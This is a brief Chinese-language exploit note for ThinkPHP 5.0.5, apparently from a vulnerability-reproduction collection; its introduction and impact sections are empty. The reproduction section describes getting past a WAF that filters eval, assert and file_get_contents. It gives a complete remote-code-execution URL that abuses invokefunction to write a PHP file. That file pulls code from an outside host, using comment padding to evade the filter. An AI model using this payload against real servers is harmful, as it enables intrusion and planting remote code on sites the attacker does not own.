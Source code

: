 Thinkphp 5.0.5
==============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

waf对eval进行了拦截

禁止了assert函数对eval函数后面的括号进行了正则过滤

对file\_get\_contents函数后面的括号进行了正则过滤

    http://www.0-sec.org/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=2.php&vars[1][1]=<?php /*1111*//***/file_put_contents/*1**/(/***/'index11.php'/**/,file_get_contents(/**/'https://www.hack.com/xxx.js'))/**/;/**/?>
